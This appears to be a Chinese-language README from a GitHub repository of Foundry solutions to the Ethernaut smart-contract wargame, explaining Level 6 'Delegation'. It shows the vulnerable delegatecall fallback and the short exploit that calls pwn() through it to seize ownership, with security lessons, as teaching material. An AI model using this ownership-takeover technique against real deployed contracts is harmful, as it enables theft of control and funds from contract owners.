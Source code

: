 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/6-delegation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 6 - Delegation</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 6 - Delegation](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目的还是拿到所有权，即执行 Delegate 中的 pwn 函数
<img src="../imgs/requirements/6-delegation-requirements.webp" width="800px"/>

## 漏洞

这一关想让我们理解在智能合约中使用 `delegatecall` 的危险。[Delegate Calls](https://solidity-by-example.org/delegatecall/)是一个强大的工具，它允许一个合约将一个函数调用委托给另一个合约。在构建可升级合约时，这是一个非常有用的功能，但如果使用不当，它也可能非常危险。

`delegatecall`是一个低级函数，它允许被调用的合约使用调用合约的存储来执行函数。这意味着被调用的合约可以修改调用合约的状态。

### 例子

> 如果 `contractA` 使用  `delegatecall` 调用了 `contractB`,  `contractB`的代码执行环境不是他自己，而是在 `contractA`存储， `msg.sender` 和 `msg.value`的环境下执行。

在本关, `Delegation` 合约有一个 `fallback` 函数使用delegatecall调用 `Delegate`合约.

```javascript
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```

通过 `delegatecall` 调用 `pwn`函数, 我们就可以更新 `Delegation` 合约的owner.

> 在使用`delegatecall`时，slot顺序也起着重要作用。但我们会在后续的关卡中探讨这个问题吗?这里，因为两个合约都只有一个状态变量——————`address public owner`，所以我们不需要担心它。

## 解答

1. 我们先计算 `pwn()` 的函数签名:

```javascript
abi.encodeWithSignature("pwn()")
```

2. 调用 `Delegation` 合约的 `fallback` 函数， 参数填写 `pwn()` 的函数签名:

```javascript
(bool success, ) = address(instance).call(
            abi.encodeWithSignature("pwn()")
        );
```

3. 通过 `owner()` 函数检测，是否通过关卡:

```javascript
assertEq(instance.owner(), address(attacker));
```

## 要点

- 调用 `delegatecall` 的时候要格外小心，确保你了解使用委托调用的含义和潜在的安全风险.
- <b>委托调用不应该接受不可信的输入.</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
